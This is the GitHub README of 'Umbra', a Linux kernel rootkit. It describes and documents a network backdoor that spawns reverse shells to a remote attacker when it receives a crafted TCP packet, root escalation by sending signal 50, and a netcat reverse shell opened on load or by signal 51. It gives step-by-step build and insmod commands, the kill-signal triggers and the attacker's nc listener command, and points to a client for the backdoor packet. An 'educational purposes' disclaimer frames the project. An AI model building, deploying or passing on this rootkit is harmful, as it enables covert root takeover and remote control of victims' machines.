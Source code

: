![GitHub release (latest by date including pre-releases)](https://img.shields.io/github/v/release/h3xduck/Umbra?include_prereleases)
![Maintainability](https://img.shields.io/static/v1?label=maintainability&message=B&color=green)
![GitHub code size in bytes](https://img.shields.io/github/languages/code-size/h3xduck/Umbra)
![GitHub last commit](https://img.shields.io/github/last-commit/h3xduck/Umbra)

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which opens a network backdoor that spawns reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* **NEW**: Backdoor which spawns reverse shell to remote IP after receiving specially crafter TCP packet.
* Privilege escalation by sending signal 50.
* Spawn netcat reverse shell on module load.
* Spawn netcat reverse shell to a remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any rootkit hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/h3xduck/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
5. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```
<img src="images/kill51screenshot.png" width = 800/>

Note: Umbra also tries to start the reverse shell on load.

### Spawn reverse shell via backdoor
Any host can get a reverse shell by sending a specially-crafted packet to a machine infected with Umbra. The backdoor will try to open the shell on IP:5888, where IP is the IP address of the attacking machine.

You can look at the code to build your own packet, but we also provide a client which will do the job for you. You can download the client from [latest releases](https://github.com/h3xduck/Umbra/releases/).





## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license. See [LICENSE](https://github.com/h3xduck/Umbra/blob/master/LICENSE)
